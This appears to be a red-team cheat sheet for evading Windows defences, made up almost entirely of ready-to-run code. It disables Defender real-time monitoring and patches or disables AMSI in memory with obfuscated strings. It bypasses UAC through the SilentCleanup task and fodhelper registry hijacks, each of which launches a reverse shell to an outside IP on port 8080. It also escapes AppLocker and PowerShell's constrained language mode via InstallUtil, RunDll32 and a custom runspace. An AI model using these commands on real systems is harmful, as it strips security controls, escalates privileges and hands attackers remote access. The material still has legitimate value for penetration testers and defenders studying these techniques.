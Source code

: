 # Defender Module for PowerShell

[Documentation](https://learn.microsoft.com/en-us/powershell/module/defender/)

```powershell
Get-MpComputerStatus
Get-MpThreat [-ThreatID XXXX]
Get-MpThreatDetection [-ThreatID XXXX]
Set-MpPreference -DisableRealTimeMonitoring $true
```

# ThreatCheck

[GitHub Repository](https://github.com/rasta-mouse/ThreatCheck)

```
ThreatCheck.exe -f .\YourFile.exe
```

# Bypassing AMSI

## 1: Setting amsiInitFailed

```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false)
```

## 2: Patching amsiScanBuffer

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
public static class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@;
$patch = [Byte[]] (0xB8, 0x05, 0x40, 0x00, 0x80, 0xC3);
$hModule = [Kernel32]::LoadLibrary("amsi.dll");
$lpAddress = [Kernel32]::GetProcAddress($hModule, "Amsi"+"ScanBuffer");
$lpflOldProtect = 0;
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), 0x40, [ref]$lpflOldProtect) | Out-Null;
$marshal = [System.Runtime.InteropServices.Marshal];
$marshal::Copy($patch, 0, $lpAddress, $patch.Length);
[Kernel32]::VirtualProtect($lpAddress, [UIntPtr]::new($patch.Length), $lpflOldProtect, [ref]$lpflOldProtect) | Out-Null;
```

## 3: Forcing an Error

```powershell
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');

$marshal = [System.Runtime.InteropServices.Marshal];
$newContext = $marshal::AllocHGlobal(4);

$context.SetValue($null,[IntPtr]$newContext);
$session.SetValue($null,$null);
```

# Bypassing UAC

## 1: DiskCleanup Scheduled Task Hijack

```powershell
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"

Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force
```

## 2: FodHelper Execution Hijack

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell <IP> 8080" -Force
C:\Windows\System32\fodhelper.exe

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

# AppLocker

## Enumerating AppLocker

```powershell
Get-AppLockerPolicy -Effective -Xml
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path C:\Tools\SysinternalsSuite\procexp.exe -User max
```

## Bypassing AppLocker

#### InstallUtil

```csharp
using System;
using System.Configuration.Install;

public class NotMalware_IU
{
    public static void Main(string[] args)
    {
    }
}

[System.ComponentModel.RunInstaller(true)]
public class A : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        // CODE EXECUTION
    }
}
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U YourFile.exe
```

#### RunDll32

```csharp
namespace RShell_D
{
    internal class Program
    {
        [DllExport("DllMain")]
        public static void DllMain()
        {
            // CODE EXECUTION
        }
    }
}
```

```powershell
C:\Windows\System32\RunDll32.exe YourFile.dll,DllMain
```

## Bypassing ConstrainedLanguage Mode

```csharp
Runspace runspace = RunspaceFactory.CreateRunspace();
runspace.Open();
PowerShell ps = PowerShell.Create();
ps.Runspace = runspace;
ps.AddScript(String.Join(" ", args));
Collection<PSObject> results = ps.Invoke();
foreach (PSObject obj in results)
{
    Console.WriteLine(obj.ToString());
}

runspace.Close();
```